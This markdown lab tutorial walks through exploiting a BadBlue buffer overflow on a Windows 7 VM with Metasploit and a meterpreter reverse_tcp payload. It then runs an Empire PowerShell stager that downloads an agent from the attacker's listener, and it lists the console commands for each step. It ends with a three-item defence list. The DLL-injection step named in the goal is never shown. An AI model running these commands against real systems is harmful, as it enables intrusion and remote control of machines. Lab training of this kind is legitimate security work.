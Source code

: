 Empire and Metasploit 101




Goal: Use Empire and metasploit in example situation of network exploitation and 
post-exploitation host enumeration. 
We will exploit a network service on a Windows 7 VM, 
and then use our low-privilege shell to then execute an empire powershell stager, 
which will create an Empire agent on the local Windows 7 VM. 
After this, we will look through the various options available as an Empire agent.
Following this, we will generate a DLL stager within Empire, 
and then use our existing meterpreter session on the Windows 7 VM 
to perform a DLL injection attack, to inject another Empire agent, directly into memory.

Pre-Stuff: Empire is not just for windows. 
It has python based agents that can run on OS X and Linux. 
It's communication profile between agents and listeners is configurable, 
similar to CobaltStrikes. 
You can use pre-built or custom-made ones to employ such functionality. 
Empire is designed to stay off disk and in memory as much as possible. 
Empire does contain modules that will not follow this and will touch disk. 
For information on Empire Modules, I recommend looking at the Github.
That is where you will find the latest supported modules.




Related Links:
* [Metasploit Unleashed Course](https://www.offensive-security.com/metasploit-unleashed/)
* [Empire Tips and Tricks](https://enigma0x3.net/2015/08/26/empire-tips-and-tricks/)

* [Empire Github](https://github.com/EmpireProject/Empire)
* [Meterpreter basics - Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Stagers - Empire](http://www.powershellempire.com/?page_id=104)
* [Agents 101 - powershellempire.com](https://www.powershellempire.com/?page_id=106)


Required Software:
 
Download Windows 7 VM
    * https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

Software to download/install within the Windows 7 VM:
	* [BadBlue - ExploitDB](https://www.exploit-db.com/exploits/16806/)
		* [Application](https://www.exploit-db.com/apps/396bedff015be885c1719f39f4561081-badblue.tar_.gz)
	* Unzip the `.tar` file with 7zip, and then extract the resulting zip file to end with the installer .exe.

Download Kali VM
	* https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/

Commads to run/Software to install within the Kali VM:
    * Update repos
    	* 'apt update && apt upgrade -y'
    * Empire [QuickStart](http://www.powershellempire.com/?page_id=110)
        * https://github.com/EmpireProject/Empire
        	* 'git clone '
        	* 'cd Empire'
        	* './setup/install.sh'
        	* './setup/setup_database.py'
        * Empire is now setup and configured!

I leave it to the reader to import/configure both VMs to their particular desired environment/virtualization platform. For this document, I will assume both machines are within the same subnet of `1.1.254.*.`

Kali VM - 1.1.254.2
Windows 7 VM - 1.1.254.5

Steps:
* Turn on both virtual machines. Ensure everything is working correctly so far.
* Kali:
    * Launch Metasploit
	    	* msfconsole
	    * Launch the postgres DB
	    * Perform a network scan on the windows machine to look for vulnerable services:
	    	* db_nmap -sS -sV --version-intensity=0 -p80 1.1.254.5
	    * Perform a search for the string 'badblue 2.7'
	    * Note the module 'BadBlue 2.72b PassThru Buffer Overflow'
	    * Use/load the module:
	    	* 'use exploit/windows/http/badblue_passthru'
	    * Display the available targets
	    	* 'show targets'
	    * Display the available options
	    	* 'show options'
		* Set RHOST
			* 'set RHOST 1.1.254.5'
		* Set a payload
			* For this, we'll use the regular reverse_tcp meterpreter
			* 'set payload windows/meterpreter/reverse_tcp'
		* Show payload options
			* 'show payload options'
		* Set LHOST for the payload(needs to callback to somewhere)
			* 'set LHOST 1.1.254.2'
	    * Show options one more time to make sure everything is correct
	    	* 'show options'
	    * If everything is good, just type:
	    	* 'run' and hit enter.
	    * Congratulations! You should now have an active meterpreter session and be sitting at a meterpreter prompt.
	    * Try typing 'help' to see available commands
	    	* [Meterpreter basics - Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
	    	* [Meterpreter Documentation](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter)
	    * For now, we're going to leave this be. Simply open another terminal, and go onto the next part.
	    -----------

	* Empire
	    * cd into the directory where you downloaded/installed Empire
	    * run Empire with the command ./empire
	    * About Empire: 
	    	* General workflow: Create listener -> Create stager -> Stager instantiates/pulls down/runs an Agent
	        * Creating listeners in Empire is done by entering the listener menu, setting the appropriate options, and then issuing the command 'execute'
	    * Enter the 'listener' menu
	    	* 'listeners'
	    * Show the options available for listeners
	    	* 'show options'	
	    * Set your desired option changes
	    	* 'set Name Test1A'
	    * Run Listener
	    	* 'run'
	    * This instantiates the listener and causes it to start listening for agents
	    -----------
	    * Generate a Stager [Stagers - Empire](http://www.powershellempire.com/?page_id=104)
	    	* Generating agents in Empire is similar to creating listeners
	    * enter the command
	    	* 'back'
	    * This should put you back at the Empire main menu. If not, keep issuing the back command until you find yourself at the main menu
	    * Once at the main menu, type the command
	    	* 'usestager'
	    	* then press tab twice
	    	* This will list all available stagers for use
	    	* For now, we are only concerned with the 'launcher' stager
	    * Type the command
	    	* 'usestager launcher'
	    * You will now be in the 'stager/launcher' menu
	    * Type the command
	    	* 'options'
	    	* This will show you all available options for the currently selected stager
	    * We want to set the options 'Listener' and 'OutFile'
	    * To enable the launcher to use our previously configured listener, issue the command
	    	* 'set Listener Test1A'
	    		* This will set our previously created listener as our new agents listener
	    * Type the command
	    	* 'set OutFile /tmp/test1'
		    	* This will store the stager command generated in a text file. After generating the stager command, we will copy it from the designated file and run it. 
	    * Verify everything is correct with the command
	    	* 'options'
		* Once verified, now type 
			* 'generate'
		* This will generate your configured&customized stager. It will be stored at the previously set file location, '/tmp/test'.
		* We then want to navigate to the txt file, open it, and copy the single line of txt. This is the encoded powershell command that will download an agent from your listener 
		-----------
		* Instantiating the agent
		* Now, go back to your meterpreter session you created earlier, and issue the command
			* 'shell'
				* This will drop you to a system shell prompt. Perfect for executing that one line powershell command.
		* Paste the command you copied earlier into the current shell prompt and hit enter. You should receive no confirmation on your windows command prompt. You should however receive a notice on your other command prompt, that you have a new agent in Empire!
		-----------
		* Interacting with the agent
		* At the Empire command menu, you should see an alert for a new agent, with a name consisting of a series of semi-random alphanumeric characters
		* To interact with and issue commands to your new agent, you must issue the following command from the main menu of the Empire command menu
			* 'agents'
		* Then
			* 'interact 'Agent_Name_Here''
		* At this point, you will be issuing commands to the selected agent. Empire is *NOT* a real time tool. Empire works by giving agents tasks to perform, and then the agents report the results to the corresponding listener. Users can issue commands and have near-real time response times through an agent, however, they should not be thought of as a real-time interactive terminals, and more as a errand-boys running tasks.
		------------
		* Using the Agent
		* Using agents are accomplished by issuing them tasks. 
		* [Agents 101 - powershellempire.com](https://www.powershellempire.com/?page_id=106)
		* Specifically, the 'usemodule' command is of specific interest.
		* If we double tap tab here,we can see all available command modules available currently.
			* Or we can check Empire's current main modules on github: [Link](https://github.com/EmpireProject/Empire/tree/master/data/module_source)
			* Most of them are very nicely documented within the code/have a brief description at the top of the file. If you are running it, you should probably know what it does.


Tips for defending against this:
	* Procmon process logging
	* Network Logging
	* Hunting empire
